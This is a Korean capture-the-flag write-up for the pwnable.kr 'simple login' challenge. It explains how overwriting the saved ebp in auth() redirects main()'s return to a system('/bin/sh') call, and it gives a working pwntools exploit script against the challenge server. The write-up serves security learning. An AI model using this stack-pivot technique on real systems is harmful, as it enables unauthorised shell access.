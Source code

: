 # [pwnable.kr] simple login

> Can you get authentication from this server?
>
> Download : http://pwnable.kr/bin/login
>
> Running at : nc pwnable.kr 9003
>
> [Attachment](./attachment)

## Bug

![image](https://github.com/user-attachments/assets/dc4ecb23-f54b-440c-b262-2c9894a211ca)

`auth()`에 들어오는 `input`의 길이는 최대 `0xc`이다. 그런데 이 `input`을 `ebp-0x8`에 위치한 `v4`의 위치에 복사한다.

![image](https://github.com/user-attachments/assets/aa15fd9f-ff8e-4040-9cbe-411c596877e1)

![image](https://github.com/user-attachments/assets/11d7a2aa-83e6-4b58-b24d-21dd8d413eed)

따라서 `ebp`에 저장된 값을 원하는 값으로 덮어쓸 수 있다.

`auth()`의 `ebp`에 저장된 값은 `auth()`가 return된 후에 진행되는 `main()`의 `ebp`가 된다.

![image](https://github.com/user-attachments/assets/25b6081a-1a12-4aa0-9f10-05e4765760e6)

`main()`의 return address는 `ebp+0x4`에 위치하기 때문에, 이를 이용하여 실행 흐름을 조작할 수 있다.

## Exploit

`correct()`에서 `system("/bin/sh")`을 호출하는 코드의 주소를 `input`에 넣고 `main()`의 `ebp`를 `input`의 주소에서 4를 뺀 값으로 조작하면 `main()`은 `correct()`로 return하게 된다.

```python
# ex.py

from pwn import process, remote, p32, pause
from base64 import b64encode

r = remote("pwnable.kr", 9003)

correct = 0x804925F  # correct()
inp = 0x811EB40  # input

payload = p32(correct + 37)  # address of system("/bin/sh")
payload = payload.ljust(8, b"A")
payload += p32(inp - 4)  # fake ebp of main()

payload = b64encode(payload)

r.sendlineafter(b"Authenticate : ", payload)

r.interactive()
```

![image](https://github.com/user-attachments/assets/5b07cfdc-1674-4f64-aa48-2dcb7fd64a5d)
